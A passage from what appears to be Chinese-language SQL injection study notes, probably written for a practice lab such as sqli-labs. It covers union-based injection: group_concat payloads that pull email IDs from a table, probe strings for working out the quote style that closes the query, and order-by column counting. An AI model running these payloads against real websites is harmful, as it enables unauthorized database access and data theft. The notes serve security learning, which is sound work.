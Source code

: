 * 将多行结果连接成一个结果返回，可以指定分隔符

```sql
-1' union select 1,group_concat(email_id),3 from emails --+
-1' union select 1,group_concat(email_id separator '~'),3 from emails --+
```

![group_concat](http://113.45.142.235:9001/laffrex/pictures/group_concat.png)

### 8. 注入类型

#### (1). 联合注入

* 使用拼接联合方式将2组或多组关键值拼凑起来进行查询

  ```sql
  查询语句1
  union
  	查询语句2
  union
  	查询语句3
  ```

##### a. 条件

1. 前后语句的查询**字段数相同**
2. 前后语句的**数据类型必须一致**
3. 页面有**回显点**

##### b. 注入流程

###### ①判断注入点

```sql
1. 先判断注入点类型
    1 and 1=1 -- 123	
    1 and 1=2 -- 123	=> 发生错误，则为整型，否则考虑为字符型
2. 判断闭合方式
    1' and 1=2 --+
    1" and 1=2 --+
    1) and 1=2 --+
    1') and 1=2 --+
    1") and 1=2 --+
    1")) and 1=2 --+
    1')) and 1=2 --+
    1")) and 1=2 --+
    1))) and 1=2 --+
    ...
```

###### ②判断字段数

* 结合**二分法**使用``order by ``判断字段数

```sql
1' order by 1 -- 123
1' order by n -- 123
1' or 1=1 order by n -- 123
```
